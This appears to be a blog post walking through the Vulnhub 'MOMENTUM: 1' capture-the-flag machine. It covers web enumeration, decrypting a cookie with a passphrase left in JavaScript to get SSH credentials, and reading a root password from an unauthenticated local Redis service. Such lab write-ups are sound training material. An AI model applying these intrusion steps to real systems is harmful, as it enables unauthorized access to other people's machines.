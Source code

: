 ```yaml
---
layout: post
title:  "Vulnhub: MOMENTUM: 1"
date:   2021-04-29 21:00:00 +1100
category: hacking
---
```


## MOMENTUM: 1
This is [MOMENTUM: 1](https://www.vulnhub.com/entry/momentum-1,685/) from Vulnhub. It says that it is 'easy/medium'; ok.

## Ports
SSH and HTTP only.

## Web
The basic *dirsearch*:

``
python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.211
``

shows me /js and not much else. Javascript isn't usually very interesting in a CTF but I look anyway; we have this:

{% highlight html %}
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
{% endhighlight %}

Okay, we have a crypto function and a passphrase. I visit the *opus-details.php* and try a quick LFI with the *id* parameter; nothing. The box has set a cookie for us:

>U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt

And that looks suspicious to me. Over to [JSFiddle](https://jsfiddle.net/), where I have this in the html:

{% highlight html %}
<head>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.2/rollups/aes.js"></script>
</head>
{% endhighlight %}

And this in the JS:

{% highlight javascript %}
var encrypted = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt";
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
{% endhighlight %}

And in the console log, I get this:

>auxerre-alienum##

The maker of our box is alienum:

>Author: AL1ENUM

A few goes with SSH reveals we have a login with:

auxerre:auxerre-alienum##

## Privesc
What happens when we get there?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/momentum]
└─# ssh auxerre@192.168.1.211 
auxerre@192.168.1.211s password: 
Linux Momentum 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 22 08:47:31 2021
auxerre@Momentum:~$ sudo -l
-bash: sudo: command not found
{% endhighlight %}

No sudo? I am disappoint.

I run linpeas and see this:

>redis      469  0.1  0.4  51672  9548 ?        Ssl  06:30   0:06 /usr/bin/redis-server 127.0.0.1:6379

Let's try that:

{% highlight shell %}
auxerre@Momentum:/dev/shm$ nc localhost 6379
KEYS *
*1
$8
rootpass
get rootpass
$18
m0mentum-al1enum##
quit
+OK
auxerre@Momentum:/dev/shm$ su root
Password: 
root@Momentum:/dev/shm# cd /root
root@Momentum:~# ls 
root.txt
root@Momentum:~# id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
Momentum
Thu 29 Apr 2021 07:42:50 AM EDT
root@Momentum:~# 
{% endhighlight %}

And done.
